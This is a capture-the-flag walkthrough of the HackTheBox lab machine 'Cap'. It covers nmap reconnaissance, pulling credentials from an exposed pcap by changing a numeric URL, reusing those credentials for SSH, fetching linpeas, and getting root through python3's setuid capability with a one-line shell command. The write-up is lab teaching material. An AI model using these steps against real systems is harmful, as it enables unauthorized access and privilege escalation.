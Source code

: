 ```yaml
---
title: Cap
date: 2021-10-03
# bookComments: false
# bookSearchExclude: false
---
```


<p align="center">
  <img src="cap-banner.png" />
</p>

***

# External Recon

As always we start to get a lay of the land with our default "nmap" scan:

```
nmap -sC -sV 10.10.10.245

PORT   STATE SERVICE VERSION
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
```

Nothing unusual so far. However, since we have some version numbers let's check them with searchsploit.

![searchsploit](searchsploit.png)

Nothing for vsftp. OpenSSH looks quite new but I suggest checking it aswell.
I just made a mental note to come back to SSH should other paths seem to be a dead end.
Gunicorn had no version number, so I skipped the searchsploit aswell. But we can take a look at the website itself.


# Explore

First thing I noticed is the authenticated user named "Nathan". Could be handy if we want to bruteforce SSH or FTP.
I actually tried bruteforcing FTP with the username "nathan" and the "rockyou" wordlist. But I got blacklisted. So that
was a dead end.

Let's play with the webapp. I tried to logout and view the settings. But these functions are not implemented. So nothing to gain here.
The next thing I looked at was the menu entry "IP Config" and "Network Status".

![menu](menu.png)

Both entries return console output of the kind you would expect. IP Config returned the IP Config of the box for example.
Sometimes developers try to be efficient and pass parameters from the website to the backend. A perfect target for code injection.
Not this time though. Both outputs seemed to be static and not triggered by some sort of PHP script. 

I then took a look at the last entry "Security Snapshot".
On the website I got some network traffic statistics and an option to download a pcap file of said traffic.

![networktraffic](networktraffic.png)

In the screenshot above you can see, there was no traffic. And the pcap was also empty.
Hm. What now?

Well. We know that "Nathan" logged in at some point. Maybe we can find some credentials in the pcap?
Looking at the URL bar, we can see that there's a "3" behind the folder "data". And the pcap-name we downloaded aligns with
that number.

![download](download.png)

Let's check if there's a "2.pcap". And there is. Albeit empty too.

![download2](download2.png)

There's even a "0.pcap". And this one has indeed data in it.
Let's download it and open it with wireshark.

![creds](creds.png)

Awesome. We have his FTP credentials.


# Exploit

Let's login with our new credentials via SSH. Why SSH? Well, it's an easy box.
Nathan probably reused his password, and SSH is far more interessting than FTP. And if it doesn't work, we can come back to FTP.

![nathan](nathan.png)

Told you. Oh, we also have the user flag here.

# Internal Recon

Once I am on a machine, I do two things. I check if `sudo -l` gives me some insights and I upload `linpeas.sh`.
To do that I fire up a simple http server on my own machine with `python3 -m http.server 80` and download the file via `wget http://<ip>/linpeas.sh`.

![linpeas](linpeas.png)

After launching it and going through the output my eyes fell on this entry.

![capabilities](capabilities.png)

# Privilege Escalation
Capabilities are often easy to exploit. They are [explained here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities).
In this case python3 has been allowed to change the UID of a new process. Which means we can start a new process, let's say /bin/sh, with UID 0 aka root - we will have root permissions.

Let's try it.

`python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`

![root](root.png)

Great. It worked as expected. We can take the root flag and finish the box.

That's it for today. Have a nice one!

x41
